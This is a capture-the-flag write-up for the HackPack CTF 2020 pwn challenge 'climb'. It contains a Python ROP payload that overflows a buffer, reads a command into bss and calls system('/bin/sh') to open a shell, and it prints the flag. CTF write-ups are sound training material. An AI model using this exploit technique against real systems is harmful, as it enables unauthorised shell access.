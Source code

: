 
## climb (396pt)
### Description

> Can you help me climb the rope? 
>
> `nc cha.hackpack.club 41702`


### Attachment

[climb](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/HackPack-CTF-2020/pwn/climb/climb)

### Analysis

a simple ret2text challenges

### Solution

#### rop

read `cmd` string to `bss` and then call `system(cmd)`

```python
offset = 40
payload = 'A'*offset
payload += p64(prsi_r15) + p64(elf.bss()+0x400)*2 + p64(elf.sym['read']) 
payload += p64(ret) + p64(prdi) + p64(elf.bss()+0x400) + p64(elf.sym['system']) 

sla('How will you respond? ',payload)
sl('/bin/sh')
```

> flag: flag{w0w_A_R34L_LiF3_R0pp3r!}

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/HackPack-CTF-2020/pwn/climb) 


